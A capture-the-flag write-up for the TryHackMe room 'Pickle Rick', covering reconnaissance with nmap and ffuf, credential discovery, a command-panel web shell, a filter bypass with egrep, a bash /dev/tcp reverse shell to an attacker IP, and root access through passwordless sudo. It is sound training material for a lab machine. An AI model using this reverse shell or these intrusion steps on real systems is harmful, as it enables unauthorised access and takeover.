# Write-up: Pickle Rick @ TryHackMe


This write-up for the room *Pickle Rick* is part of my walk-through series for [TryHackMe](https://tryhackme.com).

Lab-Link: <https://tryhackme.com/room/picklerick>  
Room type: Free 
Difficulty: Easy

## Lab description



## Steps

### Basic enumeration

I start the lab with a nmap scan to find open ports on the machine.

```
nmap -nv -Pn -sC -sV -O -T4 -oA nmap 10.10.13.30
```

The options I use are the following:

| Option | Meaning | Reasoning |
| -- | -- | -- |
| -n | No DNS resolution | Makes no sense in the lab and slows down |
| -v | Verbose | Print open ports as soon as they are found |
| -Pn | No ping scan | In the lab, I assume the target is online | 
| -sC | Use default set of scripts | Note: This includes some intrusive scans, on a CTF box this is fine, in a real-world scenario using `--script=safe` is preferred |
| -sV | Version detection | Attempt to enumerate the versions for services found | 
| -O | OS detection | |
| -T4 | Use aggressive timing | Another option that is fine in CTF environments but can cause issues in the real world |
| -oA | Output all formats | I'd like to have all formats stored: nmap, xml and grepable |

Without any argument specifying the ports, nmap scans the 1000 most common ports. If you want to find out more, look at the file `/usr`/share/nmap/nmap-services`. 

The results come back showing just two ports open:



- SSH on port 22.
  Often not worth looking too deep inside as long as there are other avenues.
- A webserver on port 80.
  Webservers and the application they might run usually go straight to the top of the priority list.

While the OS detection came back inconclusive, both SSH- and web server hint towards Ubuntu, likely Xenial (16.04) based on the [4ubuntu2.6](https://launchpad.net/ubuntu/xenial/amd64/openssh-server/1:7.2p2-4ubuntu2.6) package version

---

### Checking the web application

The first step is to check what web application runs on the server, so I open a browser and have a look:



It appears to be a fairly static page without any further link or functionality.

However, looking at the HTML reveals a piece of interesting information: a username



---

### Finding more web content

A quick check with ffuf shows the existence of two interesting files:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt -u http://10.10.13.30/FUZZ
```



- a `robots.txt`
- a login.php

The check for `robots.txt` should be one of the first steps anyway, as it might contain useful information. In this case, though, it is a non-standard file that just contains an interesting word that does not exist in any language I know: 



It could be the password for the username, so I quickly attempt to log in with ssh. Unfortunately, the ssh server does not offer password authentication. 

So I move to the second page found, the `login.php`, and do the same thing there:



---

### Checking the web application

The login is successful and I start looking through the application. All links in the top menu link to a `denied` page, but the `commands` page looks interesting.

The `command` that I can execute there might be some application-specific one, or it might be a shell command. I give it a quick try by typing `id` and having it executed:



As it turns out, it is a web shell that is provided by the application owner for my convenience.

---

### Checking the file system

I now check my environment in which I can execute commands:



Trying to use `cut` or `head` to read files is prohibited but `egrep` is not, so I use it to grep for *any* character:



An alternative would be to simply use the browser itself:



So I do as I'm asked. In the home directory of rick I find the second ingredient that was asked for:





---

### Getting a proper shell

Using the web shell is tedious, and even though it is not required to solve this room, I want to obtain proper shell access. On my local machine, I start a ncat listener with `ncat -nvlp 8888` and execute a reverse shell on the command panel:

```
bash -c "bash -i >& /dev/tcp/10.14.5.57/8888 0>&1"
```

Unfortunately, a python upgrade to a proper tty shell is not successful as python is not installed. But this reverse shell is still much more convenient than the web shell.

---

### Local enumeration

For local enumeration, I use the tool [linpeas](https://github.com/carlospolop/PEASS-ng). I download it to my target and execute it.

A few seconds later, a nice finding is displayed:



The same information can be obtained manually with `sudo -l`:



The low privilege account `www-data` is allowed to run any command as root without having to provide any password.

This is a serious misconfiguration and a direct path to eternal damnation.

---

### Escalating my privileges

The only thing that is left is to execute a few commands as root:



I enter the final flag and the room is completed.


